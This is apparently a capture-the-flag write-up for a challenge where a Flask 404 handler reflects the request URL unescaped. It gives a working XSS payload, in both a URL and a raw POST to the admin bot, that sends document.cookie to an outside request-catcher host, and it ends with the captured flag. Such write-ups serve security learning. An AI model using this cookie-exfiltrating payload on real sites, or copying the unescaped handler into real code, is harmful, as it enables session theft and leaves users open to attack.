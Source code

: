 # Bug Report
 Website has a XSS vulnerability on its `404` page, which allows the cookie containing the flag to be stolen.

The program works something like this:
```
 /api/submit {"url": "..."}
        ⇵
       BOT → localhost:1337 → set_cookie(flag)
        ⇵
      {url}
```

The XSS vulnerable code is found in `app.py`:
```python=
@app.errorhandler(404)
def page_not_found(error): 
    return "<h1>URL %s not found</h1><br/>" % unquote(request.url), 404
```

With no sanitation `unquote(request.url)` allows a pretty glaring XSS. Passing the following URL in to the bot will steal the cookie containing the flag:
```javascript=
http://127.0.0.1:1337/'<script>document.location='https://enj2vg4mylmxi.x.pipedream.net/?c='+document.cookie;</script>
```

The POST request:
```html=
POST /api/submit HTTP/1.1

Host: 138.68.168.137:30136

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://138.68.168.137:30136/

Content-Type: application/json

Origin: http://138.68.168.137:30136

Content-Length: 128

Connection: close



{"url":"http://127.0.0.1:1337/'<script>document.location='https://enj2vg4mylmxi.x.pipedream.net/?c='+document.cookie;</script>"}
```

And we get the flag as the reponse.
```
/?c=flag=CHTB{th1s_1s_my_bug_r3p0rt}
```
```
CHTB{th1s_1s_my_bug_r3p0rt}
```

